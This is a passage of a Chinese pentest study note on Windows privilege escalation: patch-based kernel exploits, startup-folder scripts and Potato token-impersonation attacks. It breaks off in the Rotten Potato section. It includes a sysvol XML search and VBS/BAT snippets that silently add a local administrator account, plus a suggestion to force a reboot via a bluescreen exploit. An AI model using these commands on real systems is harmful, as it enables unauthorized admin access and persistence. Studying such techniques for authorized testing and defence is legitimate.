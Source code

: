    ```shell for /r \\dc/sysvol %i in (*.xml) do @echo %i```
提权模块蓝军的文章到这里就结束了，但是觉得太少，翻一翻先知的文章，自己补充了一些。[文章来源](https://xz.aliyun.com/t/7573)

------

### 溢出提权

根据补丁信息提权。这个视情况而定，通常使用到的有辅助提权网站
https://bugs.hacking8.com/tiquan/

### 启动项提权

- 启动项路径 `C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

- 创建脚本

  ```
  vbs：
    set wshshell=createobject("wscript.shell")
    a=wshshell.run("cmd.exe /c net user 用户名 密码  /add",0)
    b=wshshell.run("cmd.exe /c net localgroup administrators 用户名 /add",0)
  bat：
    net user 用户名 密码 /add
    net localgroup administrators 用户名 /add
  ```

- 接下来需要等待机器重启并以较大权限的账号登录，暴力一点可以配合漏洞打蓝屏poc强制重启
- bat会弹dos，vbs不会

~~这个是从文章中直接复制的，但是总感觉这个方式比较被动，可行性不高的样子，不过也算是一种方法~~

### Potato系列提权

> 土豆，没有看内网之前就有听过一些，烂土豆等等。感觉这个摊开也是一个很大的土豆饼啊！先给出参考的文章，我暂时先不挖这么深了...不然支线太多，主线看不完。更：20200714看到安全师上的一篇[文章](https://www.secshi.com/40957.html)挺好，这里做个汇总

> 20200804：发现自己对这一块的理解可能稍微有点混乱，添加新的整理和理解

还是根据这篇[先知文章](https://xz.aliyun.com/t/7776#toc-1)，好好摸索一遍！
在获取到主机权限后，执行 `whoami /priv` 查看当前用户的权限，当拥有 `SeImpersonatePrivilege` 和 `SeAssignPrimaryTokenPrivilege` ，而通常情况下，只有高权限用户，如System用户才有后者的权限，所以根据文章中，列出拥有前者权限的 Windows 账号用户

- 本地管理员账户（不包括管理员组普通用户）和**本地服务账户**
- 由SCM启动的服务

所以这就是为啥提权好用的原因吧，因为初步获取的权限一般都是IIS这种服务权限

**SCM是啥**
碰到自己的盲区了，稍微歪个楼自省一下(总觉得好像看过了，可能是我忘记了)。SCM是Service Control Manager的缩写，即服务控制管理器，微软官方的[文档](https://docs.microsoft.com/en-us/windows/win32/services/service-control-manager)，其实也不细，留个印象

本地启动一个管理员powershell，执行whoami /priv 截图如下

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/Impersonate.png)


#### Rotten Potato（烂土豆提权）

> 这个是听到最多的啦，烂土豆提权，其对应的编号为 MS16-075，针对的是本地用户提权。需要为服务用户，例如 IIS 这种

##### 原理

> 这一部分我搬运了[烂土豆文章](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)，边看边学习，因为实在太多了，一直搬运就和抄没啥区别了（我还是先自己看看，消化一下
  ```